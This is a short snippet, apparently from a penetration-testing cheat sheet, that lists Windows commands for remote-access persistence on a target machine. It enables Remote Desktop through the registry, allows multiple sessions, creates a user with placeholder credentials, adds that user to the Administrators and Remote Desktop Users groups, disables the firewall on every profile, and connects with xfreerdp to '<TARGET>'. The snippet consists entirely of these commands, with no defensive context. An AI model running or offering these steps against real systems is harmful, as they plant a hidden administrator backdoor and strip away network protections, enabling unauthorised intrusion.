 #### Enable RDP and create user to login
```
#Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#Enable more then 1 user login
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

#Add user to RDP group
net user <USER> <PASS> /add /Y
net localgroup administrators <USER> /add
net localgroup "Remote Desktop Users" <USER> /add

#Disable firewall
netsh advfirewall set allprofiles state off

#RDP to machine
xfreerdp /u:<USER> /p:<PASS> /v:<TARGET>
```
